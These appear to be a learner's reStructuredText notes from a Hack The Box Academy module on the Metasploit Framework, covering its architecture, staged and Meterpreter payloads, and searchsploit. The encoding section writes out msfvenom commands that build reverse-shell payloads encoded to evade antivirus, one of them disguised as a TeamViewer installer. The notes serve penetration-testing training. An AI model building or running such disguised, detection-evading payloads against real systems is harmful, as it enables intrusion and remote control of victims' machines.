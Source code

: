 Using the Metasploit Framework
################################

Date: 2024-11-06 08:57

Status:

Tags: #pentesting

Description
*************

Metasploit comes in a free opensource, and pro version. \* Opensource
version uses the CLI msfconsole \* Pro has a GUI and more goodies

Architecture
**************

Can be installed with:

.. code-block:: console

   Temen@htb[/htb]$ sudo apt update && sudo apt install metasploit-framework

Plugins can be found:

.. code-block:: console

   Temen@htb[/htb]$ ls /usr/share/metasploit-framework/plugins/

Scripts can be found:

.. code-block:: console

   Temen@htb[/htb]$ ls /usr/share/metasploit-framework/scripts/

Tools can be found:

.. code-block:: console

   Temen@htb[/htb]$ ls /usr/share/metasploit-framework/tools/

Typical workflow
******************

1. Enumeration
2. Preparation
3. Exploitation
4. Privilege Escalation
5. Post Exploitation

Payloads
***************

stager, stages and staged payloads
=====================================

1. **Stagers** payloads work with stage payloads to perform a specific
   task. Stagers normally setup the task (setup a shell)
2. **Stages** are payload components that are downloaded by the Stager
   payloads
3. **Staged** payloads are simply the exploitation process.

inspection:

.. code-block:: console

   msf6 > grep meterpreter show payloads 

   <SNIP>

   535  windows/x64/meterpreter/bind_ipv6_tcp                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   <SNIP>

Meterpreter Payload
=====================

The ``Meterpreter`` payload is a specific type of multi-faceted payload
that uses ``DLL injection`` This creates a persistent connection where
you can load and unload scripts and plugins.

Encoding
=============

Using msfvenom and msfpayload/msfencodewe can create encoded
payloads/scripts/programs for different architecture to circumvent
IPS/Scanners and virus.

**Examples**:

Example 1: using :ref:`msfvenom <msfvenom>` (without encoding)

.. code-block:: console


   Temen@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Example 2: (with
https://academy.hackthebox.com/module/39/section/418

.. code-block:: console

   Temen@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Example 3: using msfpayload (used prior to 2015)

.. code-block:: console

   Temen@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

Example 4: Running the
encoder <https://academy.hackthebox.com/module/39/section/418> on a
payload with 10 interations to avoid malware detection

.. code-block:: console

   Temen@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Checking Payloads against Virus databases
===========================================

This service requires a subscription and API key

Example:

.. code-block:: console

   msf-virustotal -k <API key> -f TeamViewerInstall.exe

Loading Plugins
=================

Plugins can be copied to the plugins directory and loaded in msfconsole
with ``load <plugin-name>``

Adding custom plugins
**********************

ExploitDB
===========

There is a list of exploits in the exploit database at
ExploitDB https://www.exploit-db.com/ If you filter for the tag
Metasploit Framework (MSF) https://www.exploit-db.com/?tag=3 you
will get a list of scripts that can be added to your Metasploit plugin
directory.

Searching for custom plugins
==============================

There is a tool called ``searchsploit`` that can search the ExploitDB
from the command line. Example:

.. code-block:: console

   Temen@htb[/htb]$ searchsploit nagios3

   --------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                                               |  Path
   --------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Nagios3 - 'history.cgi' Host Command Execution (Metasploit)                                                                                  | linux/remote/24159.rb
   Nagios3 - 'history.cgi' Remote Command Execution                                                                                             | multiple/remote/24084.py
   Nagios3 - 'statuswml.cgi' 'Ping' Command Execution (Metasploit)                                                                              | cgi/webapps/16908.rb
   Nagios3 - 'statuswml.cgi' Command Injection (Metasploit)                                                                                     | unix/webapps/9861.rb
   --------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Shellcodes: No Results

Only scripts that are .rb (ruby are compatible with msfconsole)

References
***************
**Plugins** https://github.com/darkoperator/Metasploit-Plugins
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation
https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb
